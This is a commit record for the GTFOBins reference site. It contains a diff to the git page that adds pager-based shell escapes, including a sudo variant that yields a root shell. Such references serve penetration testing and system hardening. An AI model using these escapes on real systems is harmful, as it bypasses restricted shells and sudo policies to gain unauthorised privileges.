

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add functions with default pager in git

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -2,8 +2,16 @@
 functions:
   shell:
     - code: PAGER='sh -c "exec sh 0<&1"' git -p help
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        git -p help
+        !/bin/sh
   sudo:
     - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        sudo git -p help
+        !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
